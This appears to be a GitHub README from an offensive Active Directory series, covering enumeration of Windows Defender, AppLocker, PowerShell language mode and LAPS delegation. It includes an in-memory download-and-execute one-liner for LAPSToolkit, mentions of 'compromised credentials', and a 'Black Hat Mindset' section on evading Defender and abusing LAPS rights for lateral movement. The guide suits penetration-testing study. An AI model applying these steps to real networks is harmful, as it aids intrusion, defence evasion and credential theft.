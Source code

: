 # Active Directory Enumerating Security Controls

This README focuses on identifying security controls like Windows Defender, AppLocker policies, PowerShell language modes, and LAPS configurations to assess the environment's defenses.

## Table of Contents

- [Introduction](#introduction)
- [Setup and Prerequisites](#setup-and-prerequisites)
- [Enumerating Security Controls](#enumerating-security-controls)
- [Enumerating LAPS Configurations](#enumerating-laps-configurations)
- [Black Hat Mindset](#black-hat-mindset)
- [Resources](#resources)

## Introduction

Security controls in Active Directory environments, such as antivirus, application whitelisting, script execution restrictions, and local admin password management, can hinder an attacker's progress. Enumerating these controls helps identify potential obstacles and misconfigurations. This guide uses PowerShell cmdlets and LAPSToolkit to enumerate Windows Defender, AppLocker, PowerShell language modes, and LAPS settings.

## Setup and Prerequisites

- **Environment**: Windows host with PowerShell and Active Directory module.
- **PowerShell**: Run with administrative privileges (right-click > "Run as Administrator").
- **Active Directory Module**: Install via RSAT tools and import with `Import-Module ActiveDirectory` (Windows host).
- **Windows Defender Module**: Ensure the Defender module is available (e.g., `Import-Module Defender` if needed).
- **AppLocker Module**: Ensure the AppLocker module is available (e.g., `Import-Module AppLocker`).
- **LAPSToolkit**: Download LAPSToolkit.ps1 (e.g., from its GitHub repo) and load into memory:
  ```powershell
  IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/leoloobeek/LAPSToolkit/master/LAPSToolkit.ps1')
  ```
- **Permissions**: Use compromised credentials with sufficient access to query security settings (e.g., domain user or local admin).

## Enumerating Security Controls

Assess the target's security posture by enumerating antivirus, AppLocker policies, and PowerShell restrictions.

```powershell
# Get Windows Defender status
Get-MpComputerStatus

# Retrieve AppLocker policies
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections

# Check PowerShell language mode
$ExecutionContext.SessionState.LanguageMode
```

## Enumerating LAPS Configurations

Identify LAPS (Local Administrator Password Solution) configurations to find potential privilege escalation paths.

```powershell
# Find groups delegated to manage LAPS passwords
Find-LAPSDelegatedGroups

# Check rights on LAPS-enabled computers
Find-AdmPwdExtendedRights

# Search for computers with LAPS enabled
Get-LAPSComputers
```

## Black Hat Mindset

- **Assess Defenses**: Identify active security controls (e.g., Defender, AppLocker) to plan bypass techniques.
- **Target LAPS**: Exploit delegated groups or extended rights to access local admin passwords for lateral movement.
- **Bypass Restrictions**: Use ConstrainedLanguage mode findings to craft compatible payloads or switch to other execution methods.
- **Stay Stealthy**: Avoid triggering Defender by running enumeration in memory and minimizing disk writes.

## Resources

- [Windows Defender PowerShell](#)
- [AppLocker Documentation](#)
- [PowerShell Language Modes](#)
- [LAPSToolkit GitHub](#)
- [LAPS Overview](#)


